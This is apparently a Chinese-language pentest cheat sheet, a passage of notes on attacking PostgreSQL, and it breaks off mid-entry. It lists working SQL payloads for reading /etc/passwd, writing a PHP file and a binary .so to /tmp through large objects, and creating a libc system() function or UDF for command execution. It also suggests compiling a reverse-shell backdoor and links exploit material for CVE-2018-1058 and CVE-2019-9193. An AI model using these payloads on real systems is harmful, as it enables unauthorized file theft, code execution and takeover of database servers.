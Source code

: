```sql
select pg_read_file('/etc/passwd');
drop table testaaaa;
create table testaaaa(t TEXT);
copy testaaaa from '/etc/passwd';
select * from testaaaa limit 1 offset 0;
```

**PostgreSQL 读取文件2**

```sql
Select lo_import('/etc/passwd',12345678);
select array_agg(b)::text::int from(select encode(data,'hex')b,pageno from pg_largeobject where loid=12345678 order by pageno)a
```

**PostgreSQL 写文件**

```sql
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
```

**PostgreSQL 写文件2**

利用分片进行上传，首先创建一个 OID 作为写入的对象, 然后通过 0,1,2,3… 分片上传但是对象都为 12345 最后导出到 / tmp 目录下, 收尾删除 OID

```sql
SELECT lo_create(12345);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('7f454c4...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 1, decode('0000000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 2, decode('f604000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 3, decode('0000000...7400', 'hex'));
SELECT lo_export(12345, '/tmp/test.so');
SELECT lo_unlink(12345);
```

**调用本地 so 文件命令执行**

一般8.2以下的版本可以
```sql
CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE C STRICT;
CREATE FUNCTION system(cstring) RcETURNS int AS '/lib64/libc.so.6', 'system' LANGUAGE C STRICT;
select system('id');
```

**利用 UDF 命令执行**

需要编译好的 so 文件去创建执行命令函数，可以自己编译反弹 shell 后门，也可以用 sqlmap 提供好的
- https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql

**CVE-2018-1058 PostgreSQL 提权漏洞**
- 概述

    PostgreSQL 其 9.3 到 10 版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

- POC | Payload | exp
    - [PostgreSQL 提权漏洞（CVE-2018-1058）](https://vulhub.org/#/environments/postgres/CVE-2018-1058/)

**CVE-2019-9193 PostgreSQL 高权限命令执行漏洞**
- 概述
